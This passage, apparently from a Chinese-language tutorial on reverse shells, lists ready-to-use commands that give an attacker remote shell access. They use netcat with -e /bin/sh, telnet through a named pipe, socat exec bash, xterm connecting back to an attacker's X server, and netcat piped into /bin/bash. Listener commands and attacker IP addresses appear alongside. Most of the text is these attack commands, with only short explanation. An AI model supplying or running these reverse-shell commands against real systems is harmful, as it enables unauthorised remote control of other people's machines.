 nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）

```
nc -e /bin/sh 192.168.146.129 2333
```

### 2. telnet反弹shell

```
mknod a p; telnet 10.211.55.2 7777 0<a | /bin/bash 1>a
telnet x.x.x.x 6666 | /bin/bash | telnet x.x.x.x 5555
```

### 3. socat反弹shell

```
# 监听命令
socat file:`tty`,raw,echo=0 tcp-listen:9999

# 反弹命令
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.211.55.2:9999
```

![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215201848293-652984613.png) 

### 4. Xterm 

```
# 在主控端配置
# 开启Xserver：　　# TCP 6001
Xnest :1                

# 授予目标机连回来的权限：
xterm -display 127.0.0.1:1          # Run this OUTSIDE the Xnest, another tab
xhost +targetip                         # Run this INSIDE the spawned xterm on the open X Server
# 如果想让任何人都连上：
xhost +                      

# 在受控端执行
# 假设xterm已安装，连回你的Xserver：
xterm -display attackerip:1
或者：
$ DISPLAY=attackerip:0 xterm
```



## 0x3：“管道符”+ “socket网络通信”实现bash反弹shell

### 1. 基于匿名管道（pipe）传递指令流

匿名管道（pipe）是内核中的一个单向数据通道，管道有一个读端和一个写端。一般用于父子进程之间的通信。

```
# client
nc 192.168.43.146 7777 | /bin/bash | nc 192.168.43.146 8888
# server
ncat -lvvp 7777
# server 
ncat -lvvp 8888
```

